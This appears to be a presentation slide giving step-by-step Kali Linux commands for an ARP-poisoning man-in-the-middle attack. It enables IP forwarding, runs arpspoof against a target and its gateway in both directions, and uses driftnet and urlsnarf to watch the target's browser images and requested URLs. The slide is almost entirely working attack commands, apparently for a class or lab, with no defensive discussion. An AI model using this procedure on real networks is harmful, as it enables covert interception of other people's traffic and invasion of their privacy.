

# Man-In-The-Middle-Attack though ARP Poisoning
Using Kali:
Open terminal
Check if packet forwarding is on: cat /proc/sys/net/ipv4/ip_forward
If output is 0: echo 1 >> /proc/sys/net/ipv4/ip_forward
Tell your target that you are the gateway*:
		 arpspoof -i eth0 -t 10.247.49.X 10.247.49.1
Open new terminal or tab
(new terminal/tab)Tell the gateway that you are the target:
		arpspoof -i eth0 -t 10.247.49.1 10.247.49.X

Viewing the packets*:
Open terminal
View target’s browser images: driftnet -i eth0
Open new terminal or tab
View URLs being downloaded: urlsnarf -i eth0

*Assuming eth0 is your Ethernet card’s name